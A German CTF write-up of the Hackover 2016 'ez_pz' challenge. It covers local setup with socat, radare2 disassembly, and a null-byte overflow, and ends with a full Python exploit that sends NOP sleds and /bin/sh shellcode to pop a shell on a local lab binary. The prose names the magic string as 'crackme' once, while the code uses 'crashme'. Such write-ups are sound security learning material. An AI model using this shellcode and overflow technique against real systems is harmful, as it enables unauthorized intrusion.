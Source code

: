 ```yaml
---
title:  "Hackover 2016"
date:   2017-05-01T13:13:13+01:00
draft: false
toc: false
images:
tags:
  - untagged
---
```


Eigentlich wollte ich diesen Artikel schon Ende Oktober 2016
runterschreiben, kam aber leider noch nicht dazu. Naja, besser spät als
nie. Letzten Oktober war ich auf dem [Hackover](https://hackover.de/) in
Hannover. Dieses Mal wurde da ein phänomenales CTF vom CTF-Team des
[Hamburger CCC](https://www.hamburg.ccc.de/). Eine der Challenges möchte
ich euch nicht vorenthalten. Da der Server, der das CTF gehandlet hat
bereits abgeschaltet worden ist, muss man etwas improvisieren. Am besten
dazu eignet sich eine VM mit GNU/Linux (vorzugsweise Arch Linux
natürlich, hehe). Dann kann man die Binary nämlich getrost lokal
ausführen mit der folgenden Zeile:

`socat TCP-LISTEN:6666,bind=localhost,reuseaddr,fork EXEC:./ez_pz`

Ob alles geklappt hat kann man mit `gnu-netcat` überprüfen:

![gnu-netcat in action](/img/ez_pz_1.png)

Da wir einen Login-Dialog bekommen hat alles geklappt. Wir sehen etwas
ASCII-Art, ein paar Sprüche und eine Frage:"What's your Name?".
Was aber noch viel wichtiger ist, ist die Speicheraddresse die wir da
sehen (gemeint ist der Hex-String). Diese Adresse wird noch sehr
hilfreich werden. Wenn wir das ganze etwas durchprobieren merken wir,
dass sich diese Adresse immer wieder ändert. Vermutlich ist das unsere
Rücksprungsadresse. Also die Addresse zu der wir später springen müssen
um die Challenge zu beenden. Ok werfen wir einen Blick auf die binary
mit einem meiner Lieblingstools `radare2`:

![radare2 in action](/img/ez_pz_2.png)

Was wir hier sehen ist die `main`-function. Interessant für uns ist hier
allerdings nur der Aufruf: `call sym.chall`. `sym.header` beherbergt
anscheinend nur die Ausgabe des Headers. Diesen Part können wir also
getrost ignorieren. Schauen wir uns also mal `sym.chall` an:

![radare2 in action2](/img/ez_pz_3.png)

Was sofort ins Auge fällt ist folgende Zeile die nicht ins Gesamtbild
passt:

`0x080486b0      6853880408     push str.crashme ; str.crashme ; "crashme" @ 0x8048853`

Anscheinend ist dies unser Magic-String den wir treffen müssen um in die
Funktion `sym.vuln` zu springen. Ansonsten landen wir nur bei dem `nop`
in `0x080486df`. Gut schauen wir uns mal diese `sym.vuln` an. Der Name
ist ja bereits so verräterisch:

![radare2 in action3](/img/ez_pz_4.png)

Anscheinend handled die Application den Null-Terminator falsch. Heißt
wir können eine Eingabe machen, diese mit dem Null-Byte terminieren und
dann weiterschreiben. Alles was wir weiterschreiben wird anscheinend
direkt in den Speicher geschrieben. Anhand dieses Wissens können wir nun
einen exploit komponieren, der alle Voraussetzungen erfüllt und uns dann
eine Shell poppt. Alles was wir machen müssen ist unseren Magic-String
`crackme` zu senden, dann einen Null-Terminator, dann eine `NOP`-Sled in
die wir hereinspringen können, dann die Addresse aus dem Header mit der
wir dann wiederum zu dem Shellcode springen können der gleich hinter
einer weiteren `NOP`-sled liegt.

Das Ergebnis sieht dann mit `Python` zum Beispiel so aus:

```python
#!/usr/bin/env python2
#-*- coding: utf-8 -*-

import sys
import struct
import time
import re
import binascii
import telnetlib


t = telnetlib.Telnet("127.0.0.1", 6666)
data=""

regex = re.compile("0x[0-9a-f]{8}")

data = t.read_very_eager()
print(data)
match = regex.findall(str(data))
tmp = match[0].lstrip("0x").rstrip("\n\0")
rip = binascii.unhexlify(tmp)
print("Matched Address: ", match[0])
rip = struct.unpack(">I", rip)[0]
print("Our RIP: ", hex(rip))


shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload="crashme"            # magic-string zum crashen der application
payload+="\x00"              # Null-Terminator
payload+="\x90" * 18         # 1. Nop-sled
payload+=struct.pack("<I", rip)
payload+="\x90" * 200        # 2. Nop-sled
payload+=shellcode


t.write(payload + "\n")
while True:
  data = t.read_very_eager()
  print(data)
  input = raw_input("CMD> ")
  t.write(input + "\n")

t.close()
```

Zum Schluss muss man nur noch den richtigen Server und port eintragen
und schon poppt eine Shell auf. Voila!
